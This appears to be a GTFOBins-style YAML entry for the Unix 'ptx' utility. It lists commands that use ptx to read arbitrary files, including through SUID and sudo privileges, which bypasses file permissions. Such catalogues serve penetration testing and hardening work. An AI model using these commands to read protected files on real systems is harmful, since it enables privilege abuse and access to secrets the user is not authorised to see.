 ```yaml
---
description: While the program is capable of reading the file, it outputs a "permuted index" of its content, thus altering it. Adjusting the options could yield more readable outputs.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ptx -w 5000 "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./ptx -w 5000 "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ptx -w 5000 "$LFILE"
---
```

